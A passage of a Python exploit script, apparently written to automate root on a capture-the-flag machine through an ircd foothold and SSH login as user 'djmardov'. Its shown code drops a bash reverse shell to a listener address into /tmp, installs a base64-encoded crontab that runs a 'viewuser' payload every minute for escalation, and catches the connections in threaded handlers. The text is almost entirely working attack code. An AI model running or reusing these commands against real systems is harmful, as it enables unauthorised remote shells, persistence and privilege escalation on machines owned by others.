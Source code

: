 ```py
    thr.start()
    # Send the command
    command = 'sshpass -p "%s" ssh djmardov@%s "/bin/echo -e \'#!/bin/bash\n\nsleep 5\n\nbash -i >& /dev/tcp/%s/%s 0>&1\' > /tmp/listusers; chmod +x /tmp/listusers; /bin/echo -e \'#!/bin/bash\n\nviewuser\' > /tmp/exec.sh; chmod +x /tmp/exec.sh; /bin/echo "KiAqICogKiAqIC9iaW4vYmFzaCAvdG1wL2V4ZWMuc2gK" | /usr/bin/base64 -d > /tmp/repeater; crontab /tmp/repeater; exit"' %(ssh_pass,rhost,lhost,lport)
    os.system(command)
    
# Handler root which will be opened in thread
def RootHandler(lport):
    root = listen(lport).wait_for_connection()
    root.interactive()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # First Handler to receivei the ircd user connection and get the pwd from backup file
    thr = Thread(target=HandlerIRCDUser,args=(int(lport),rhost,))
    thr.start()
    # Trigger the frist reverse
    TriggerReverse(rhost,lport,lhost)
    # Wait the thread finish before procced
    thr.join()
    # Login on the ssh with the djmardov user
    LoginSSHandRoot(rhost,ssh_pass,lhost,lport)
    
if __name__ == '__main__':
    main()
```
